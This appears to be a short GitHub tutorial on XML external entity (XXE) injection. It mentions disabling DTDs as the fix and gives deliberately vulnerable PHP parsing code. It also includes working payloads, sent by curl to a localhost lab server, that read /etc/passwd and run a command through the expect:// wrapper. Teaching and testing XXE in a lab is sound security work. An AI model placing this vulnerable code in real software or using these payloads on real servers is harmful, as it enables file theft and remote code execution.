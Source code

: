 # XXE-Basics
Basic Overview of XXE

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

Some applications use the XML format to transmit data between the browser and the server. Applications that do this virtually always use a standard library or platform API to process the XML data on the server. XXE vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.

XML (Extensible Markup Language) is a very popular data format. It is used in everything from web services (XML-RPC, SOAP, REST) through documents (XML, HTML, DOCX) to image files (SVG, EXIF data). To interpret XML data, an application needs an XML parser (also known as the XML processor).

The easiest and safest way to prevent against XXE attacks it to completely disable Document Type Definitions (DTDs).

Vulnerable PHP Code 

```
<?php 
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $user = $creds->user;
    $pass = $creds->pass;
    echo "You have logged in as user $user";
?> 
```

Simple XML Data

```
<creds>
    <user>Ed</user>
    <pass>mypass</pass>
</creds>

```
Send the Request

```
curl -d @xml.txt http://127.0.0.1/xxe.php

```

Expliot XXE to Retrieve /etc/passwd

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>

```
Send the Request

```
curl -d @xml.txt http://127.0.0.1/xxe.php

```
Expliot XXE to gian RCE

Requires the PHP expect module to be enabled

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds

```
Send the Request

```
curl -d @xml.txt http://127.0.0.1/xxe.php

```



